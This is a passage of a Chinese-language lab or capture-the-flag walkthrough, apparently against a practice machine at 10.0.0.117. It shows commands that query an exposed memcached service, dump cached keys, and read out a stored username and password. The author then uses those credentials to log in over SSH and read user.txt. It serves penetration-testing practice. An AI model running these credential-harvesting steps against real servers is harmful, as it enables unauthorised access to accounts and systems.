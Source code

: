 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现一个可登录的用户，继续找

```
netstat -ntlp
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现memcache服务，进去看看

```
telnet 127.0.0.1 11211
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

连接成功，找找有没有可利用的信息

```
stats items
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

item1里有5个key，查看5个key的名字

```
stats cachedump 1 5
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

查询到5个key分别为id、email、name、password、username，再来检查key的值

```
get username  
get password
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

用户名为tridente，密码为N3ptun0D10sd3lM4r$，这个用户名与可登录的用户名相同，SSH登录试试

```
ssh tridente@10.0.0.117
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，查找敏感信息

```
ls  
cat user.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

